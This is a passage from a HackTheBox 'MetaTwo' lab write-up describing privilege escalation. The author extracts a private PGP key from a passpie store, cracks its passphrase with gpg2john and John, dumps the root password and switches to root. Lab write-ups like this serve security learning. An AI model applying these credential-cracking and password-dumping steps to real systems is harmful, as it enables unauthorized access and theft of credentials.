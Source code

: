 ### Privilege Escalation

In jnelson's home directory there is a passpie folder:

```
jnelson@meta2:~/.passpie$ ls -la
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 5 jnelson jnelson 4096 Mar  6 22:37 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

The `.keys` file contains public and private PGP keys.

I'll copy the private key block back to my attacking box and use gpg2john to crack the passphrase:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ gpg2john key > hash.txt                                                       

File key
```

John quickly cracks the passphrase:

![htb_metatwo_john.png](../assets/metatwo_assets/htb_metatwo_john.png)

`blink182`

From here we can run:

```
jnelson@meta2:~/.passpie$ passpie copy --to stdout --passphrase blink182 root@ssh
p7qfAZt4_A1xo_0x
```

And we get the root password.

We can now `su -`:

```
jnelson@meta2:~/.passpie/ssh$ su -
Password: 
root@meta2:~# whoami
root
```
